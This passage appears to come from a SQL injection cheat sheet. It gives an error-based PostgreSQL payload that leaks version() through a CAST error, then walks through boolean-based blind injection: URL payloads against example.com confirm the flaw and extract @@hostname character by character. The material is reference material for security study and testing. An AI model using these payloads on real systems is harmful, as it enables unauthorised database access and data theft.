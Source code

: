 ```sql
LIMIT CAST((SELECT version()) as numeric) 
```

The error will leak the output of the `version()`.

```ps1
ERROR: invalid input syntax for type numeric: "PostgreSQL 9.5.25 on x86_64-pc-linux-gnu"
```

## Blind Injection

Blind SQL Injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the application's response.

### Boolean Based Injection

Attacks rely on sending an SQL query to the database, making the application return a different result depending on whether the query returns TRUE or FALSE. The attacker can infer information based on differences in the behavior of the application.

Size of the page, HTTP response code, or missing parts of the page are strong indicators to detect whether the Boolean-based Blind SQL injection was successful.

Here is a naive example to recover the content of the `@@hostname` variable.

**Identify Injection Point and Confirm Vulnerability** : Inject a payload that evaluates to true/false to confirm SQL injection vulnerability. For example:

```ps1
http://example.com/item?id=1 AND 1=1 -- (Expected: Normal response)
http://example.com/item?id=1 AND 1=2 -- (Expected: Different response or error)
```

**Extract Hostname Length**: Guess the length of the hostname by incrementing until the response indicates a match. For example:

```ps1
http://example.com/item?id=1 AND LENGTH(@@hostname)=1 -- (Expected: No change)
http://example.com/item?id=1 AND LENGTH(@@hostname)=2 -- (Expected: No change)
http://example.com/item?id=1 AND LENGTH(@@hostname)=N -- (Expected: Change in response)
```

**Extract Hostname Characters** : Extract each character of the hostname using substring and ASCII comparison:

```ps1
http://example.com/item?id=1 AND ASCII(SUBSTRING(@@hostname, 1, 1)) > 64 -- 
http://example.com/item?id=1 AND ASCII(SUBSTRING(@@hostname, 1, 1)) = 104 -- 
```

Then repeat the method to discover every characters of the `@@hostname`. Obviously this example is not the fastest way to obtain them. Here are a few pointers to speed it up:

* Extract characters using dichotomy: it reduces the number of requests from linear to logarithmic time, making data extraction much more efficient.

### Blind Error Based Injection
